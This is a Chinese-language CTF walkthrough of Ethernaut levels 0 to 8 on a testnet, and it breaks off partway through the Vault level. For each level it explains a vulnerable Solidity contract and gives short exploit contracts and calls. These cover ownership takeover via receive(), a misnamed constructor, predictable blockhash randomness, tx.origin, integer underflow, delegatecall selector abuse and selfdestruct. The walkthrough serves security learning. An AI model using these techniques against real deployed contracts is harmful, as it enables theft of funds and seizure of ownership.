## Level_0.Hello Ethernaut

1. 安装` MetaMask `;
2. ` F12 `中的` Console `，一些指令查看state:

查看自己的钱包地址->` player `:


查看余额->` getBalance(player) `:


查看合约->` ethernaut `:


合约交互,比如查看合约的owner->` ethernaut.owner() `:


3. 从水龙头处获得ETH:(可以[Sepolia PoW Faucet](https://sepolia-faucet.pk910.de/)挖,也可以~~某鱼直接购买~~)

4. 部署合约:点击` Get new instance `即可部署;


5. 查看合约信息:


6. 根据指引往下调用函数:


知道密码的话可以调用验证函数，但不知道密码在哪，查看一下合约信息：


可以看到有一个` password() `函数，输入参数为空，输出的是一个字符串；


成功验证，且提交后会显示源码供分析：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Instance {
    string public password;
    uint8 public infoNum = 42;
    string public theMethodName = "The method name is method7123949.";
    bool private cleared = false;

    // constructor
    constructor(string memory _password) {
        password = _password;
    }

    function info() public pure returns (string memory) {
        return "You will find what you need in info1().";
    }

    function info1() public pure returns (string memory) {
        return 'Try info2(), but with "hello" as a parameter.';
    }

    function info2(string memory param) public pure returns (string memory) {
        if (keccak256(abi.encodePacked(param)) == keccak256(abi.encodePacked("hello"))) {
            return "The property infoNum holds the number of the next info method to call.";
        }
        return "Wrong parameter.";
    }

    function info42() public pure returns (string memory) {
        return "theMethodName is the name of the next method.";
    }

    function method7123949() public pure returns (string memory) {
        return "If you know the password, submit it to authenticate().";
    }

    function authenticate(string memory passkey) public {
        if (keccak256(abi.encodePacked(passkey)) == keccak256(abi.encodePacked(password))) {
            cleared = true;
        }
    }

    function getCleared() public view returns (bool) {
        return cleared;
    }
}
```


## Level_1.Fallback

要求：

> 1. 将合约所有权归于自己
> 2. 将合约余额减少到0

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    // 映射，地址->金额
    mapping(address => uint256) public contributions;
    // 状态变量，拥有者
    address public owner;

    // 构造函数
    // 将消息发送者变成owner
    // contributions[owner] = 1000ether
    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }
    // 修饰器，判断消息发送者是否是owner
    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    // 贡献eth,超过上一个owner的贡献金额后,会变成owner
    function contribute() public payable {
        // 需要合约的值小于0.001ether
        require(msg.value < 0.001 ether);
        // contributions[消息发送者]的金额增加
        contributions[msg.sender] += msg.value;
        // 更换owner，前提是得比上一个owner金额更多
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    // 返回自己账户的金额
    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    // owner取回自己的钱
    function withdraw() public onlyOwner {
        // 接收方.transfer(ETH数额)
        payable(owner).transfer(address(this).balance);
    }

    // 收到ETH时触发
    // 一个合约最多有一个receive
    receive() external payable {
        // 需要当前携带的金额大于0 且 发送者的余额大于0
        require(msg.value > 0 && contributions[msg.sender] > 0);
        // 变更owner
        owner = msg.sender;
    }
}
```

### 分析

` contribute() `函数表示，只要贡献次数大于1000000次，就可以成为` owner `，这显然是不现实的；

还有一个地方可以变更` owner `，那就是` receive() `函数，需要我的贡献额度大于0，且携带一点金额，就可以把` owner `变更成我；

那思路还是挺清晰的：

1. 贡献一次；
2. 调用` receive() `函数,并且` msg.data `要为空；

> 触发fallback() 还是 receive()?
>            接收ETH
>               |
>          msg.data是空？
>             /  \
>           是    否
>           /      \
> receive()存在?   fallback()
>         / \
>        是  否
>       /     \
> receive()   fallback()

3. 当成为` owner `后，调用` withdraw() `取出所有余额；

### 攻击

首先部署一下题目获得地址：



复制一下合约内容到Remix中，将环境调成` Injected Provider-MetaMask `，然后使用` At Address `来交互：


开始第一步，先贡献` 1Gwei `到合约中(发送` 1wei `会失败，可能未达到交易的最低额度)：


调用` receive() `，并且` msg.data `要为空：


此时` owner `已经是我们的了：



最后，调用` withdraw `，提款跑路：




## Level_2.Fallout

要求：

> 获取合约的所有权

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    // 为uint256使用SafeMath包
    using SafeMath for uint256;

    // 映射，地址=>金额
    mapping(address => uint256) allocations;
    // 所有者
    address payable public owner;
    
    // 构造函数
    function Fal1out() public payable {
        // 消息发送者为合约所有者
        owner = msg.sender;
        // allocations[owner] = 附带的金额
        allocations[owner] = msg.value;
    }

    // 修饰器，只有owner才能执行
    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        // allocations[消息发送者] + value
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    // 将allocator的全部金额转回给他
    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    // 给消息发送者转账该合约全部金额，只有owner可以调用
    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    // 查看allocator的金额
    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

### 分析

题目要我们获取合约所有权，整个合约就一个地方有变更` owner `的：

```solidity
// 构造函数
function Fal1out() public payable {
    // 消息发送者为合约所有者
    owner = msg.sender;
    // allocations[owner] = 附带的金额
    allocations[owner] = msg.value;
}
```

但看版本是` 0.6 `，构造函数根本不是这么写的：

```solidity
// 0.4.22版本以下，构造函数是使用合约同名函数
contract AAA{
    function AAA(){
        // 构造函数
    }
}
// 0.4.22版本以上，构造函数必须使用constructor关键字
contract BBB{
    constructor(){
        // 构造函数
    }
}
```

仔细看会发现合约名是` Fallout `，函数名是` Fal1out `；

那直接用咱们的钱包调用` Fal1out `函数，附带一点金额就行了；

### 攻击

直接将整个合约拷贝到` Remix `中是会直接报错的，需要解决很长时间；

这里我们直接写抽象函数即可，因为我们就是想快捷地向合约发送` ABI `才来使用` Remix `的，将需要调用的函数声明一下即可：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Fallout {
    // owner状态变量
    address payable public owner;
    // Fal1out函数
    function Fal1out() public payable {}
}
```


附带金额并调用：


查看现在的` owner `，是自己的钱包：


## Level_3.Coin Flip

要求：

> 是一个抛硬币游戏，需要连续猜对10次；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    // 抛硬币函数
    function flip(bool _guess) public returns (bool) {
        // 获取上一个区块的哈希
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }
        // 赋值到lastHash
        lastHash = blockValue;
        // 用上一个块的哈希除以一个值来实现随机效果
        uint256 coinFlip = blockValue / FACTOR;
        // 判断当前回合结果
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

### 分析

该合约实现了一个通过区块哈希来实现随机效果的抛硬币游戏，但仔细想一下并不是真正的随机；

由于以太坊区块生成速度不是特别快，当我们查到上一个区块的哈希值时的同时进行猜硬币，两个动作查询的上一个区块哈希值大概率是同一个；

所以只需要写一个脚本攻击即可，速度也不能太快，不然可能交易失败；

### 攻击

攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    // 抛硬币合约对象
    CoinFlip public coinfilp;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // 设置抛硬币合约
    function setContract(address addr) public {
        coinfilp = CoinFlip(addr);
    }

    // 攻击合约
    function Attack() public returns (bool){
        // 获取上一个区块的值
        uint256 lastblockValue = uint256(blockhash(block.number - 1));
        // 计算硬币结果
        uint256 flip = lastblockValue / FACTOR;
        bool res;
        if (flip == 1){
            res = true;
        } else {
            res = false;
        }
        // 调用抛硬币合约执行
        return coinfilp.flip(res);
    }
}
```

设置合约地址：


连续攻击10次：


最后一次攻击的区块查询：


查看结果：


## Level_4.Telephone

要求：

> 将合约所有权归于自己；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

### 分析

合约很简单，能修改` owner `的地方只有两处：

1. 构造函数
2. ` changeOwner `函数

构造函数肯定不能被利用了，只剩下一个` changeOwner `函数，只要` 交易的发送者 `不为` 该消息的发送者 `即可；

可以简单增加点Logger看一下分别是什么：


所以，我们得增加一个代理商来帮我们调用这个函数，这个代理商就是一个中转合约：


注意，` delegetecall `不能用，比如` A-->B-->C `，` A `委托调用` C `，此时的` tx.origin `和` msg.sender `都是` A `；只能用` call `；

### 攻击

攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    Telephone public tel;

    function delegateCall(address _contract, address _wallet) public {
        tel = Telephone(_contract);
        tel.changeOwner(_wallet);
    }
}
```




## Level_5.Token

要求：

> 获得更多的tokens；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    // 初始供应量 = 总供应量 = 合约拥有者的余额
    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    // 转账
    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

### 分析

要求我们获得更多的tokens，唯一方法就是在` transfer `函数中，看到版本是` 0.6 `，该版本中有整数溢出问题（到` 0.8 `就被修复了）；

` uint256 `的最大值是` 2^256 - 1 `，也就是32位比特全部填满1；

接下来举4个比特的例子：

```solidity
0 - 1 -> 0000 - 0001 (由于进位) --> 1111 = 7

7 + 1 -> 1111 + 0001 (由于进位) --> 0000 = 0
```

所以，这道题我们就得利用` 0 - 1 `这个下溢漏洞，使我们的余额变大；

由于` msg.sender `是我们自己的钱包，所以` _value `要比` balance[msg.sender] `大，大` 1 `可以获得最大收益，使其为21；

至于这个` _to `，可以是任意地址，这边就使其为全0；

所以我们只需调用函数` transfer(0x0000000000000000000000000000000000000000, 21) `即可；

### 攻击




## Level_6.Delegation

要求：

> 将合约所有权归于自己；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;
    constructor(address _owner) {
        owner = _owner;
    }
    // 使owner变为msg.sender
    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    // 设置代理地址和owner
    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }
    
    // 调用不存在函数时会执行
    // 此处不能接受ETH，因为没有payable关键字
    fallback() external {
        // 代理调用，参数是msg.data
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

### 分析

两个合约中除构造函数外修改` owner `的就一个函数：` pwn() `，但目前不清楚哪会调用它；

往下看发现` Delegation `会设置代理合约，然后在` fallback `中执行` msg.data `；

首先来回顾一下` call `和` delegatecall `的区别，例子：` 钱包A 调用 合约B，合约B call/delegatecall 合约C的函数 `；

```solidity
// call
A ----------call----------> B ----------call----------> C
                     msg.sender = A              msg.sender = B
                     msg.data = A给的             msg.data = B给的
                     变量的变化 = 仅C中的变量变化    变量的变化 = 仅C中的变量变化

// delegatecall
A ----------call----------> B ----------delegatecall----------> C
                     msg.sender = A                  ****msg.sender = A****
                     msg.data = A给的                     msg.data = A给的
                     变量的变化 = 仅C中的变量变化            变量的变化 = 仅B中的变量变化
```

可以一句话总结，` delegatecall `就是` 用户A `用` 他的身份和内容 `，借用` 合约C中的函数 `更改` 合约B中的内容 `；

可以看到，给我们生成的示例是` Delegation `合约：


也就是希望我们用自己的钱包通过代理合约调用` pwn `，这样` owner `就会被设置成我们的；

当调用不存在的函数时，默认会调用` fallback `函数，只需在` msg.data `中填入` pwn `的函数选择器即可；


### 攻击

函数` pwn() `的函数选择器是：` 0xdd365b8b `；


## Level_7.Force

要求：

> 使合约的余额大于0；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

### 分析

貌似并没有给我们合约的具体内容；

在[交易查询网站](https://sepolia.etherscan.io)上查到合约的字节码：

```solidity
// 0x6080604052600080fdfea26469706673582212203717ccea65e207051915ebdbec707aead0330450f3d14318591e16cc74fd06bc64736f6c634300080c0033
```

反编译一下字节码：

```solidity
// Note: The function selector is not present in the original solidity code.
// However, we display it for the sake of completeness.

function __function_selector__() private { 
    MEM[64] = 128;
    revert();
}
```

发现好像就是一个空的合约；

题目的意思就是我们得往里面转账，可是` receive() `和` fallback() `都不存在，向合约发送ETH是会报错的;



由于版本是` 0.8 `，此时的` selfdestruct `还没有升级，可以向指定地址转账，无论那个地址是否有` payable `函数；

所以我们只需要部署一个合约，往其中转入一些ETH，之后销毁它，将其中ETH转入题目合约即可；


### 攻击

攻击脚本，记得将编译版本调低一点：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp {
    function destruct(address payable addr) public {
        selfdestruct(addr);
    }
    receive() external payable { }
}
```


## Level_8.Vault

要求：

> 解锁合约；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
     bool public locked;
     bytes32 private password;

     constructor(bytes32 _password) {
        locked = true;
        password = _password;
     }

     // 输入正确的密码解锁
     function unlock(bytes32 _password) public {
          if (password == _password) {
               locked = false;
          }
     }
}
```

### 分析

合约内容很简单，构造函数设置了一个密码，只需要猜中正确的密码，合约即可解锁；

` password `是一个状态变量，要是` public `类型的，我们直接能在Remix上看到是什么，可是它是一个` private `的变量；

#### 逆向角度

首先看看部署合约时，是否泄漏了该变量的赋值，先搞个demo试试看：





可以看到部署合约中有对它们的赋值，也就是说，找到部署题目的合约，反编译一下应该能拿到` password `的初始值；

直接去题目合约地址查看:[Contract-Code](https://sepolia.etherscan.io/address/0xB7257D8Ba61BD1b3Fb7249DCd9330a023a5F3670#code)(查询交易哈希发现` Logs `中有3个地址，其中` instance `代码反编译看了一下是负责生成、提交题目的，就只剩` level `了)；

反编译后发现好像和其他的都不太一样，首先是整个合约就一个状态变量，然后很多函数，但其中有一个` CreateInstance `非常值得注意：




和平时我们自己声明的不太一样，有点像是工厂合约，自己整一个demo：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp {
    uint256 public aaa;
    uint256 private bbb;
    constructor(uint256 _b){
        aaa = 123;
        bbb = _b;
    }
}
contract Demo {
    function CreateExp() public returns (address) {
        Exp exp = new Exp(456);
        return address(exp);
    }
}
```

反编译一下瞬间感觉熟悉了：





再细致对比一下，` private `的值最终去哪了：



反过来看看目标合约：


所以` var1 `中的内容就是` password `；

> 看这两个会更加清晰，可以先看` Decompiled `的，再看` Decompiled yul `的；
>
> Vault合约：https://app.dedaub.com/decompile?md5=8105cca6be44ba8109c4052582f7d48b
>
> Demo合约：https://app.dedaub.com/decompile?md5=b57b973643be2b523aad92b508579553

#### 数据存储角度

所有状态变量都是存在链上的，包括私有数据，所以知道数据在哪，就可以直接查看；

合约中状态变量都是存在一个个的` slot `中，每个` slot `长度都是256位且是` key-value `配对的；

存储的位置是按照声明顺序来的:


